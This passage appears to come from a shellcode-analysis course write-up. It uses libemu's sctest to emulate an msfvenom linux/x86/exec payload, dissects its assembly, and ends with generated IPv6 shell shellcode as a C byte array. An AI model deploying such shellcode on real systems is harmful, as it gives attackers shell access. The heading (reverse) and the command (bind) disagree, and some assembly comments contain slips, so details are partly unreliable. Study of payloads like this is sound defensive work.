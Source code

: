 ~~~ bash
               = 0x00416fc8 =>
                   = "-c";
           = 0x00416fb8 =>
               = 0x0041701d =>
                   = "ifconfig";
           = 0x00000000 =>
             none;
     ];
     const char * envp[] = 0x00000000 =>
         none;
) =  0;
skawa@ubuntu:~/libemu/tools/sctest$
~~~

In addition to displaying the code above, libemu is also able to create a graphical representation of all  instructions and system interrupts that exist in the emulated program.

~~~ bash
skawa@ubuntu:~/libemu/tools/sctest$ msfvenom -p linux/x86/exec CMD=ifconfig -f raw -a x86 --platform linux | ./sctest -vvv -S -s 100000 -G execve.dot
skawa@ubuntu:~/libemu/tools/sctest$dot execve.dot -T png -o execve.png
skawa@ubuntu:~/libemu/tools/sctest$
~~~

<img src ="https://github.com/skahwah/skahwah.github.io/blob/master/_data/slae-assignment-5.png?raw=true" />

#### Dissecting the Instructions
~~~ nasm
push byte 0xb         ;push 11 on to the stack
pop eax               ;execve syscall, 11
cwd
push edx              ;push null terminator on to the stack
push word 0x632d      ;push -c
mov edi, esp          ;preserve stack pointer in EDI
push dword 0x68732f   ;next two instructions push /bin/sh
push dword 0x6e69622f
mov ebx, esp          ;move stack pointer in ESP
push edx              ;push null terminator on to the stack
call 0x1              ;get the custom command, ifcondig
push edi              ;stack address restored
push ebx              ;filename /bin/sh
mov ecx, esp          ;ECX contains all arguments for execve
int 0x80              ;execute execve syscall
~~~



### 3. reverse_ipv6_tcp Payload Creation
Creating a payload for `linux/x86/shell/reverse_ipv6_tcp` in C format.

~~~ bash
skawa@ubuntu:~/libemu/tools/sctest$ msfvenom -p linux/x86/shell/bind_ipv6_tcp LHOST=::1 -f c -a x86 --platform linux
No encoder or badchars specified, outputting raw payload
Payload size: 120 bytes
Final size of c file: 528 bytes
unsigned char buf[] =
"\x6a\x7d\x58\x99\xb2\x07\xb9\x00\x10\x00\x00\x89\xe3\x66\x81"
"\xe3\x00\xf0\xcd\x80\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x0a\x89"
"\xe1\xb0\x66\xcd\x80\x51\x6a\x04\x54\x6a\x02\x6a\x01\x50\x97"
"\x89\xe1\x6a\x0e\x5b\x6a\x66\x58\xcd\x80\x97\x83\xc4\x14\x59"
"\x5b\x5e\x6a\x02\x5b\x52\x52\x52\x52\x52\x52\x68\x0a\x00\x11"
"\x5c\x89\xe1\x6a\x1c\x51\x50\x89\xe1\x6a\x66\x58\xcd\x80\xd1"
"\xe3\xb0\x66\xcd\x80\x50\x43\xb0\x66\x89\x51\x04\xcd\x80\x93"
"\xb6\x0c\xb0\x03\xcd\x80\x87\xdf\x5b\xb0\x06\xcd\x80\xff\xe1";
skawa@ubuntu:~/libemu/tools/sctest$
~~~